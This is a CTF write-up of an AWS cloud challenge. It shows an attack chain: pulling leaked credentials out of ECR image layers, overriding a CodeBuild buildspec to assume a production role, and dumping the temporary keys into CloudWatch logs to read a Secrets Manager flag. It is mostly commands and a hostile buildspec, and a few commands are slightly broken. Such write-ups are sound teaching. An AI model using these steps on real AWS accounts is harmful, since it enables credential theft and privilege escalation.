







Hey folks\! Owatron here. 

Hope you had some fun (and maybe a little frustration? Since a full solve was not possible ) . Gotta say, setting this one up was pretty fun  wanted to chain together some real-world cloud (not just your usual ssrf -> metadata -> s3 -> flag). Let's walk through how you could unravel this thing.

-----

### **1. Where do I even start? (Recon)**

So, you get dropped in with these junior engineer keys. First thought: "Okay, what can I actually *do*?". You probably tried the usual suspects: `aws s3 ls`, `aws ec2 describe-instances`, `aws iam list-roles`... all hitting a brick wall. Access Denied City, population: you. 

But wait\! What about ECR? `aws ecr describe-repositories`. One lonely repo shows up: `h7tex-webapp-prod`. Kinda sticks out like a sore thumb when it's the *only* thing you can see, right? Gotta be our way in.

-----

### **2. What's in the box? (Image Tag)**

Alright, we got a repo. Now, what images are actually *in* there? Let's ask:
`aws ecr describe-images --repository-name h7tex-webapp-prod`

And lookie here, a tag pops up: `v1.2.3`. Cool, now we have a specific target image.

-----

### **3. Peeling the Onion (Layer Analysis)** 

This is where the real digging starts. Docker images aren't monolithic; they're built in layers. And sometimes, devs accidentally leave... stuff... in those layers. 

First, grab the image "manifest" – basically, the list of all its layers:
`aws ecr batch-get-image --repository-name h7tex-webapp-prod --image-ids imageTag=v1.2.3`

That spits out a bunch of JSON, including a list of `layers` with `digest` values . Now for the fun part: check each layer. Pick a digest (usually the smaller ones are more interesting than the giant OS layer):

```
LAYER_DIGEST="sha256:35b6467088b4e0f3642db943da626910ef2b8f3c143ea1d41a6d6eadd3543484" 

# Get a temp download link
URL=$(aws ecr get-download-url-for-layer --repository-name h7tex-webapp-prod --layer-digest $LAYER_DIGEST --query 'downloadUrl' --output text)

# Download and peek inside the tarball
curl -s "$URL" | -xvzf - --strip-components=2
```


And what do we find? `root/.aws/credentials`\! Jackpot\! Someone *definitely* forgot to add `.aws` to their `.dockerignore`. Classic supply chain vuln right there. Let's grab those keys:


# Take a look at our loot!
cat credentials
```

New keys acquired\! 

-----

### **4. Okay, New Me. Who Dis?**

Got fresh keys. Time to figure out who we are now and what *this* identity can do.

```bash
# Set up a new profile for these keys
aws configure --profile codebuild-leaked


# Verify the new identity
aws sts get-caller-identity --profile codebuild-leaked
```

The username screams "CodeBuild service account". Let's see if it lives up to the name:
`aws codebuild list-projects --profile codebuild-leaked`

Yep, one project: `h7tex-deployment-pipeline`. We've successfully jumped from ECR into the CI/CD system. 

-----

### **5. Reading the Pipeline's Mind (Finding the Blueprint)**

Alright, we found the pipeline. Can we just run it? Maybe. But first, What *is* this pipeline configured to do? Let's grab its specs:

`aws codebuild batch-get-projects --names h7tex-deployment-pipeline --profile codebuild-leaked`

Digging through that JSON blob reveals two super important things:


1.  **`serviceRole`**: It runs as `h7tex-devops-role`. Ooh, "DevOps" sounds like it might have some nice permissions. That's our next target identity.
2.  **`description`**: "CI/CD Pipeline for webapp-prod. ARN: `arn:aws:secretsmanager:ap-south-1:031113026155:secret:secret/prod/api_key-GWPkbl` That's Intresting.
3.  **`environmentVariables`**: There are two vars: `SECRET_TAG_KEY` = `Project` and `SECRET_TAG_VALUE` = `WebAppProd`. That's... weirdly specific. Feels like a clue for later. 

Now, can we just `assume-role` into `h7tex-devops-role` using our leaked keys? \ *(It fails)*. Why? Check the `devops-role`'s trust policy (if you could\!). It probably only trusts the CodeBuild *service*, not our specific user. But wait... if *we* can control the build, maybe we can make the build *itself* do our dirty work\!

-----

### **6. Pulling the Strings (Hijacking the Build)** 

This is the main event\! Our leaked user has permission to `codebuild:StartBuild`. And crucially, CodeBuild lets you provide your *own* build instructions (`buildspec`) when you start a job, overriding the default one. Game on\!

Let's create our own `malicious-buildspec.yml`:

```
# malicious-buildspec.yml
version: 0.2
phases:
  build:
    commands:
      # Just making sure who we are inside the build (should be devops-role)
      - echo "Build hijacked! Running as:"
      - aws sts get-caller-identity
      # Now, use this role's power to assume the FINAL role (h7tex-prod-task-role)
      # BUT! Remember those weird tags we found? Let's use 'em!
      - |
        TEMP_CREDS=$(aws sts assume-role \
          --role-arn "arn:aws:iam::$(aws sts get-caller-identity --query Account --output text):role/h7tex-prod-task-role" \
          --role-session-name "PwnedByBuild" \
          --tags Key=Project,Value=WebAppProd)
      # Extract and Base64-encode ONLY the SecretAccessKey
      #  Why? Because of cloudwatch security mechanism, Got to use base64 as cloudwatch security mechnanism doesn't allow secret key to be shown
      - SECRET_KEY=$(echo "$TEMP_CREDS" | jq -r '.Credentials.SecretAccessKey')
      - ENCODED_SECRET=$(echo -n "$SECRET_KEY" | base64)
      # Print credentials with only the secret key encoded
      - echo "---BEGIN_ACCESS_KEY---"
      - echo $(echo "$TEMP_CREDS" | jq -r '.Credentials.AccessKeyId')
      - echo "---BEGIN_ENCODED_SECRET_KEY---"
      - echo "$ENCODED_SECRET"
      - echo "---BEGIN_SESSION_TOKEN---"
      - echo $(echo "$TEMP_CREDS" | jq -r '.Credentials.SessionToken')
      - echo "---END_CREDS---"
```

Now, launch the pipeline, force-feed it *our* script:

```bash
aws codebuild start-build \
  --project-name h7tex-deployment-pipeline \
  --buildspec-override file://malicious-buildspec.yml \
  --profile codebuild-leaked
```


We've basically turned the build pipeline into our remote shell, running as the `devops-role`\!

**Misconfigurations exploited here:** Leaked user could start builds, build allowed buildspec override, `devops-role` could assume `prod-task-role`, and the necessary tags were discoverable.

-----

### **7. Sifting Through the Trash (Reading Logs)**

Our malicious build ran . Now, where are those credentials it printed? In the CloudWatch Logs\!

```bash
# Get the build ID from the start-build output above
BUILD_ID="h7tex-deployment-pipeline:..."

# Check status until it's done (SUCCEEDED or FAILED - we saw lots of fails!)
aws codebuild batch-get-builds --ids $BUILD_ID --profile codebuild-leaked

# Find the log stream name in the build details output (under "logs")
LOG_STREAM_NAME="..."

# Dump the logs!
aws logs get-log-events \
  --log-group-name /aws/codebuild/h7tex-deployment-pipeline \
  --log-stream-name $LOG_STREAM_NAME \
  --profile codebuild-leaked
```


Scroll through that log output, find your `---BEGIN_CREDS---` markers, and copy the JSON blob with the final set of keys (AccessKeyId, SecretAccessKey, SessionToken).






Special thanks to **@Warlock** for contirbuting with these images and to motivate me to make a better writeup 🤓
-----

### **8.Getting the Flag** 

This is it\!.

```
export AWS_ACCESS_KEY_ID="KEY_FROM_LOGS"
export AWS_SECRET_ACCESS_KEY="SECRET_FROM_LOGS"
export AWS_SESSION_TOKEN="TOKEN_FROM_LOGS"

# Verify your final identity 
aws sts get-caller-identity
# Arn: ...assumed-role/h7tex-prod-task-role/PwnedByBuild

# Now, grab that secret! We deduced from the earlier codebuild description.
aws secretsmanager get-secret-value --secret-id secret/prod/api_key --query 'SecretString' --output text
```


And The flag appears: `H7CTF{P1p3l1n3_Pwn4g3_v14_Bu1ldSp3c}`

-----

### **Wrap-up**

From a tiny ECR permission, through a leaky container, hijacking a build job, and wrestling with IAM permissions and conditions, all the way to the production secret. Was a complex chain,


But unfortunately amazon had different ideas , they did not want their doors getting breached so they shut down our door :D 
